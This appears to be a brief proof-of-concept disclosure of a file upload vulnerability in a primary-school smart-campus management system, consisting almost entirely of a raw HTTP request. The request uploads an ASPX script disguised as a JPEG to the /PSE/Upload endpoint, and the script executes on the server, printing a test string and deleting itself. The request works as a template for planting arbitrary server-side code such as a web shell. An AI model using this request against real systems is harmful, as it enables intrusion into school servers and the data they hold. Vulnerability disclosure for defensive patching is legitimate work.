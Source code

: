 ```
POST /PSE/Upload HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2919.83 Safari/537.36
Content-Type: multipart/form-data; boundary=230982304982309
Connection: close
Content-Length: 239

--230982304982309
Content-Disposition: form-data; name="file"; filename="Hello.aspx"
Content-Type: image/jpg

<%@Page Language="C#"%><%Response.Write("HelloWorldTest");System.IO.File.Delete(Request.PhysicalPath);%>
--230982304982309--
```

![image-20240729093018380](小学智慧校园信息管理系统 Upload 文件上传漏洞.assets/image-20240729093018380.png)
